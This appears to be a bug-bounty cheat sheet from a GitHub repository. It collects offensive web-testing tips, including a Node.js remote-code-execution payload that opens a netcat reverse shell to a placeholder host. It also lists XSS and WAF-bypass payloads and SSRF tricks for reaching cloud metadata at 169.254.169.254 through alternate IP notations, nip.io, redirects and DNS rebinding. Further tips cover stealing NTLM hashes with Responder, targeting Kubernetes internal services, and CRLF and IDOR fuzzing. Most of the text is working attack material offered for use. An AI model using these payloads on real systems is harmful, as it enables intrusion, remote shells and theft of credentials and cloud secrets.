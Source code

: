 ![ ](https://raw.githubusercontent.com/rbih-boulanouar/bugbounty/main/images/Lets-Dig-into-the-Robust-Bug-Bounty-Program-Developed-by-Google.png)
# General tips
changing Exif metadata of an image can lead to XSS, RCE ...  [learn more](https://gokulvinesh.medium.com/rce-xss-via-image-exif-metadata-dddf33dadb41).

# Recon
Google Dorks for recon
```
site:*.google.*
site:google.*
site:*.google.com
site:*.google.-*.* -> (good results)
```
# RCE
1-If you discover a node.js template area, you should try triggerable node payload </br>
`require('child_process').exec('nc -e sh ip port');{src:/bin/sh/}`

# XSS
1-The new reportError() function enables a quite amusing XSS vector:
```
window.name='alert(1)'
reportError(name , enerror=eval)
```
2-If you see `returnTo=` in login url , add `javascript:alert(1)` and login > xss alert.<br>
3-Amazon CloudFront WAF sometimes can be easily bypassed with `<svg onload=(alert)(1)` instead of `<svg onload=alert(1)`<br>
4-Bypass Waf <br>
```
<details%0Aopen%0AonToGgle%0A=%0Aabc=(co\u006efirm);abc%28%60xss%60%26%2300000000000000000041//
```
5-Bypass XSS WAF protection using a comment between a JS function name and parameters
```
<img/src/onerror=alert/*1337*/(1)>
<img/src/onerror=alert//&NewLine;(2)>
<img/src/onerror=alert&sol;**&sol;(3)>
```
<br>
6-Bypass XSS WAF protection using Whitespace Separators between a JS function name and parameters <br>

```
<img/src/onerror=alert&#xFEFF;(1337)>
```
![ ](https://raw.githubusercontent.com/rbih-boulanouar/bugbounty/main/Whitespace%20Separators.jpeg)

# SSRF
1-Try other URL schemes:<br>
```
• file:// (file read)
• netdoc:// (file read)
• dict://
• gopher://
• jar://
• ldap://
• and more!
```
<br>
You might be able to get file read.
<br>
Or send multi-line requests to gain additional impact
<br>
(Ex: gopher + redis = likely RCE)<br>
<br>

2-Is the target running Windows?

Can't hit internal services?

(Well, try this even if you can)

Try to steal NTLM hashes with Responder.

`/vulnerable?url=http://your-responder-host`
<br><br>
3-Try alternative representations of IP addresses.

IPs can be represented in many ways including:
```
• octal
• decimal
• hexadecimal
• etc.
```
Try different representations.

You might get lucky.
<br><br>
4-Can't hit `169.254.169.254`?

On AWS, "instance-data" resolves to the metadata server.

Try hitting `http://instance-data` instead.
<br><br>
5- Know your target's technologies.

Look at job postings!

You might not be able to hit a meta-data service.

But there are likely other internal services!

(ex: I've pulled data from an internal Elasticsearch instance)
<br><br>
6- Are they using Kubernetes?

Search Burp history for `.default.svc` or `.cluster.local`

If you find references, try to hit them.

Also, try to hit the Kubernetes API: `https://kubernetes.default.svc`
<br><br>
7- In Kubernetes, you should be brute-forcing for:

`HOSTNAME.<some-namespace>.svc.cluster.local`

I often use Burp Intruder: `FUZZ.default.svc.cluster.local`

Need better wordlists?

Scrape helm charts from ArtifactHub.
<br><br>
8- Can't supply a full URL? You can still get SSRF!

If your input is used to build a URL, THINK.

Learn about URL structures.

The following 4 characters have led to many SSRFs:
```
• @
• ?
• #
• ;
```
An example is in the picture:
![ ](https://raw.githubusercontent.com/rbih-boulanouar/bugbounty/main/images/img1.jpeg)
<br><br>
9- If your injection is down the path, traverse!
```
GET /vulnerable?id=1234

|> app fetches: http://some-api/api/v1/1234
```
```

GET /vulnerable?id=../../

|> app fetches: http://some-api/api/v1/../../
```

Find an open redirect & you probably have SSRF.

Or likely can hit internal endpoints.

10- Use Hostnames Instead of IPs

Use services like `http://nip.io` to bypass direct IP bans. 

Here are some examples. All of these resolve to `169.254.169.254`.
```
http://169.254.169.254.nip.io
http://169-254-169-254.nip.io
http://a9fea9fe.nip.io (hexadecimal IP notation)
```
11- HTTP Redirects

Use redirects from a custom domain to a blocked IP to catch applications off-guard! 

Here’s a simple PHP script to perform the redirect.

`<?php header(“Location: http://169.254.169.254/”) ?>`

12- DNS Rebinding

Use TOCTOU vulnerabilities, by providing alternating DNS responses to breach. 

Set up a DNS server that responds with two different IPs on alternating requests, one is allowed through the `ip_is_blocked()` function, and the other is not.

13-Non-Standard IP Notations

Octal, hexadecimal, integer, IPv6 can bypass some IP blockages! 

All these will be interpreted as `169.254.169.254`:
```
025177524776 (octal)
0xa9fea9fe (hexadecimal)
2852039166 (integer)
::ffff:a9fe:a9fe (IPv6)
```
# Rate limit bypass
![ ](https://raw.githubusercontent.com/rbih-boulanouar/bugbounty/main/Rate%20limit%20bypass.jpeg)
# Line terminators
For XSS / CRLF injection.<br>
🔹LF: %0A (\u000A)<br>
🔹VT: %0B (\u000B)<br>
🔹FF: %0C (\u000C)<br>
🔹CR: %0D (\u000D)<br>
🔹CR+LF: %0D%0A (\u000D\u000A)<br>
🔹NEL: %C2%85 (\u0085)<br>
🔹LS: %E2%80%A8 (\u2028)<br>
🔹PS: %E2%80%A9 (\u2029)<br>
# IDOR:
1-<br>
```
/api/getUser$FUZZ$
-> /api/getUserv1
-> /api/getUserBeta
```
